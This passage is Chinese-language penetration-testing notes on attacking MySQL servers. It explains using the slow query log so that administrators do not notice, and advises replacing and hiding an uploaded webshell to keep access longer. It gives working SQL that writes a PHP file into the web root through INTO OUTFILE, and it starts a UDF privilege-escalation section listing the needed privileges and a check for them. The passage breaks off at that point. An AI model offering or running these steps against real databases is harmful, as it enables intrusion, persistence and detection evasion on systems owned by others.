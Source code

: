 因为是用的慢查询日志，所以说只有当查询语句执行的时间要超过系统默认的时间时,该语句才会被记入进慢查询日志。

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。

如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中

```sql
show global variables like '%long_query_time%'		--查看服务器默认时间值
```

通常情况下执行sql语句时的执行时间一般不会超过10s，所以说这个日志文件应该是比较小的，而且默认也是禁用状态，不会引起管理员的察觉

拿到shell后上传一个新的shell，删掉原来shell，新shell做隐藏，这样shell可能还能活的时间长些。

## 创建表，导出数据

```python
use test;
drop table if exists vow;
create table vow(name text not null);
insert into vow(name) values('<?php phpinfo(); ?>');
select name from vow into outfile '/var/www/html/a.php';
drop tables vow;
```

# 

# mysql的UDF提权

参考

[https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux%E7%8E%AF%E5%A2%83%E4%B8%8B%E7%9A%84MySQL%20UDF%E6%8F%90%E6%9D%83.md](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux环境下的MySQL UDF提权.md)

[https://www.freebuf.com/articles/database/291175.html](https:_www.freebuf.com_articles_database_291175)

## 利用条件

1、常规情况：

1.1 mysql配置文件secure_file_priv项设置为空，（如果为NULL或/tmp/等指定目录，即无法自定义udf文件导出位置，则无法利用）；

1.2 CREATE权限、FILE权限（root用户默认拥有所有权限）。

2、特殊情况：

2.1 INSERT权限、UPDATE权限、DELETE权限。

## 查看是否高权限

```python
mysql> select * from mysql.user where user = substring_index(user(), '@', 1) ;
```

## 查看plugin的值
